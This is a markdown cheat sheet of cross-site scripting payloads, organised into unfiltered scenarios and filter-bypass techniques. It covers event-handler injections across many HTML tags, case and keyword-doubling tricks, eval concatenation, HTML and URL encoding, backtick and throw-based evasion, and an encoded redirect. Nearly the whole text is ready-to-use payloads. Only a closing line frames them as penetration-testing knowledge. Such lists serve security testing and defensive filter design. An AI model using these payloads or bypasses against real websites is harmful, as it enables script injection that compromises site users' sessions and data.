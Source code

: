 ### **Comprehensive Guide to XSS Payloads and Techniques**

Cross-Site Scripting (XSS) is a prevalent web vulnerability that allows attackers to inject malicious scripts into web pages viewed by other users. This guide explores various payloads and techniques for exploiting XSS, both in scenarios with no filtering and in cases where filtering mechanisms are in place.

---

### **No Filtering Scenarios**

#### **1. `<script>` Tag**
- **Basic Payload**:
  ```html
  <script>alert("xss");</script>
  ```

#### **2. `<img>` Tag**
- **Image Load Error**:
  ```html
  <img src="x" onerror=alert(1)>
  ```
- **Mouse Events**:
  - Mouse Over:
    ```html
    <img src=1 onmouseover="alert(1)">
    ```
  - Mouse Out:
    ```html
    <img src=1 onmouseout="alert(1)">
    ```

#### **3. `<a>` Tag**
- **JavaScript Links**:
  ```html
  <a href=javascript:alert('xss')>test</a>
  ```
- **Mouse Events**:
  ```html
  <a href="" onclick=alert('xss')>a</a>
  ```

#### **4. `<input>` Tag**
- **Focus/Blur Events**:
  ```html
  <input onfocus="alert('xss');">
  <input onblur=alert("xss") autofocus><input autofocus>
  ```
- **Keyboard Events**:
  ```html
  <input type="text" onkeydown="alert(1)">
  ```

#### **5. `<form>` Tag**
- **Form Actions**:
  ```html
  <form action=javascript:alert('xss') method="get">
  ```

#### **6. `<iframe>` Tag**
- **Onload Event**:
  ```html
  <iframe onload=alert("xss");></iframe>
  ```

#### **7. `<svg>` Tag**
- **Onload Event**:
  ```html
  <svg onload=alert(1)>
  ```

#### **8. `<body>` Tag**
- **Autofocus Trigger**:
  ```html
  <body onscroll=alert("xss");><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><input autofocus>
  ```

---

### **Filtered Scenarios**

#### **1. Filtering Spaces**
- **Slash Substitution**:
  ```html
  <img/src="x"/onerror=alert("xss");>
  ```

#### **2. Filtering Keywords**
- **Case Sensitivity**:
  ```html
  <ImG sRc=x onerRor=alert("xss");>
  ```
- **Double Writing Keywords**:
  ```html
  <imimgg srsrcc=x onerror=alert("xss");>
  ```

#### **3. Character Concatenation**
- **Eval Function**:
  ```html
  <img src="x" onerror="a=aler;b=t;c='(xss);';eval(a+b+c)">
  ```

#### **4. Other Character Confusion**
- **Comments and Priority**:
  ```html
  <<script>alert("xss");//<</script>
  ```

#### **5. Encoding Bypass**
- **Unicode Encoding**:
  ```html
  <img src="x" onerror="&#97;&#108;&#101;&#114;&#116;&#40;&#34;&#120;&#115;&#115;&#34;&#41;&#59;">
  ```
- **URL Encoding**:
  ```html
  <img src="x" onerror="eval(unescape('%61%6c%65%72%74%28%22%78%73%73%22%29%3b'))">
  ```

#### **6. Filtering Quotes**
- **Backticks**:
  ```html
  <img src="x" onerror=alert(``xss``);>
  ```

#### **7. Filtering Parentheses**
- **Throw Statement**:
  ```html
  <svg/onload="window.onerror=eval;throw'=alert\x281\x29';">
  ```

#### **8. Filtering URLs**
- **Encoded URLs**:
  ```html
  <img src="x" onerror=document.location=``http://%77%77%77%2e%62%61%69%64%75%2e%63%6f%6d/``>
  ```

---

### **Conclusion**



This comprehensive guide covers a wide range of XSS payloads and techniques, from basic injections to advanced encoding and filtering bypasses. Understanding these methods is crucial for both exploiting vulnerabilities during penetration testing and defending against such attacks in real-world applications. Always remember to use this knowledge ethically and responsibly.
